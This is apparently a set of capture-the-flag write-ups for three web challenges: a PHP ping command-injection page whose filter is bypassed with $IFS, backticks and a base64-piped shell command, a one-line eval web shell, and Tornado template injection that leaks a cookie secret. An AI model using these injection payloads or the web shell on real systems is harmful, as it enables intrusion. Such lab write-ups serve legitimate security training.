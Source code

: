 ## GXYCTF2019-Ping-Ping-Ping
```
?ip=127.0.0.1;ls

?ip=127.0.0.1;cat$IFS$1index.php
```

```php
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
```

解法一：
```
?ip=127.0.0.1;cat$IFS`ls`
```

解法二:
```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

解法三：命令执行拼接(这个还不是很明白)
```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php

https://www.e-learn.cn/topic/3781202
```

## 极客大挑战-2019-Knife

``eval($_POST["Syc"]);``

蚁剑直接连接拿flag

## 护网杯-2018-easy_tornado

考点: SSTI模板注入

```
error?msg={{1}}
error?msg={{handler.settings}}

得到cookie_secret:ef57c331-744f-4528-b434-9746317d4f6a
/hints.txt
md5(cookie_secret+md5(filename))
/fllllllllllllag
594cb6af684ad354b4a59ac496473990

```
